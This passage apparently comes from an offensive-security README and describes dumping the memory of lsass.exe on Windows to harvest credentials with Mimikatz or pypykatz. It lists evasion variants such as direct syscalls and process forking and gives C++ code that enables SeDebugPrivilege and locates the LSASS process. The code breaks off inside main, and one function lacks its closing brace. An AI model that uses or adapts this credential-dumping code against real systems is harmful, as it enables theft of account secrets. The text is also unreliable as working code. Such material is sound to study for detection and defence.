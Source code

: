 This API allows developers to take a snapshot of a target process. 
Although **highly monitored**, when applied to `lsass.exe` it can be exploited further using `Mimikatz` or `pypykatz`. This leads to more sophisticated approaches:
- Direct syscall variants.
- Forking and dumping child processes.
- Manual memory walking.
- `PssCaptureSnapshot`, discussed below.
Also this method requires the calling process to have the `SeDebugPrivilege` flag.
##### Code
Steps:
1. Enable `SeDebugPrivilege`.
2. Finding LSASS PID with a custom function.
3. Get a handle on the `lsass.exe` using `OpenProcess`.
4. Create a local file containing the process dump.
5. Analyse further with `Mimikatz`, `pypykatz` or `volatility/Rekall`

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#include <iostream>

#pragma comment(lib, "dbghelp.lib") // Link against the Debug Help Library

bool EnablePrivilege(LPCWSTR priv) {
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return false;

    if (!LookupPrivilegeValue(NULL, priv, &luid))
        return false;

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    return AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL);

DWORD GetLsassPID() {
    PROCESSENTRY32 entry;
    entry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (Process32First(snapshot, &entry)) {
        do {
            if (_wcsicmp(entry.szExeFile, L"lsass.exe") == 0) {
                CloseHandle(snapshot);
                return entry.th32ProcessID;
            }
        } while (Process32Next(snapshot, &entry));
    }
    CloseHandle(snapshot);
    return 0;
}

int main() {
    if (!EnablePrivilege(SE_DEBUG_NAME)) {
        std::cerr << "[-] Failed to enable SeDebugPrivilege.\n";
        return 1;
    }
    
```